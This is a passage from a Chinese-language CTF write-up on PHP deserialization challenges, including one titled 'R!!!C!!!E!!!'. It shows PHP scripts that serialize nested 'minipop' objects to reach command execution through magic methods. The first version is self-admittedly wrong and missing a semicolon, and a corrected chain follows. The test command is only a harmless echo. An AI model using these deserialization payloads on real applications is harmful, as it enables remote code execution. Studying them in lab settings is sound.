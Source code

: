 ```php
$begin->name=new Then();
//echo(@serialize($begin));
echo(urlencode(@serialize($begin)));
```

可能比较简陋，没有官方题解中那样一步一步大套娃来的摔，但也算构造出来了，反正就是套娃，通过一步步触发绕过魔术方法 最终达到命令的执行，获取flag。



官方的：

![image-20240304223744873](../typora-user-images/image-20240304223744873.png)

![image-20240304223757869](../typora-user-images/image-20240304223757869.png)

官方的逻辑清楚，套娃时不迷糊就好。



### 第四题 R!!!C!!!E!!! ***

<img src="../typora-user-images/image-20240304224007258.png" alt="image-20240304224007258" style="zoom:50%;" />

![image-20240304224048859](../typora-user-images/image-20240304224048859.png)

```php
<?php
class minipop{
    public $code;
    public $qwejaskdjnlka;

}
$a=new minipop();
$a->qwejaskdjnlka=new minipop
$a->code="echo aminosi";
echo (urlencode(@serialize($a)));
```

![image-20240304225723746](../typora-user-images/image-20240304225723746.png)

​		结果看到alright已经返回了，但exec提示是空的，是这里构造的code被过滤掉了么，主要是我不懂正则表达式，我看也不应该过滤掉echo命令啊。

​		好吧，上面的payload错了，魔术方法执行时是new的那个的魔术方法，而不是$a的，也不应该给a的code赋值

​		起码要这样构建

```php
<?php
class minipop{
    public $code;
    public $qwejaskdjnlka;

}
$a=new minipop();
$a->qwejaskdjnlka=new minipop();
$b=$a->qwejaskdjnlka;
$b->code="echo aminosi";
echo (urlencode(@serialize($a)));
//echo (@serialize($a));
```
